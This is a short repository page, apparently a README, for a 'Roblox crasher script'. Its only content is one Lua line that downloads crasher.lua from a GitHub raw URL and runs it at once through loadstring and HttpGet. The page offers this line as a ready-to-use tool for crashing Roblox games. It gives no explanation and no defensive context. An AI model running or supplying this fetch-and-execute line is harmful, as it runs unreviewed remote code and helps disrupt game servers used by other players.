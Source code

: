 # Roblox-crasher-script
loadstring(game.HttpGet("https://raw.githubusercontent.com/IsaacFG1985/Roblox-crasher-script/main/crasher.lua",true))()
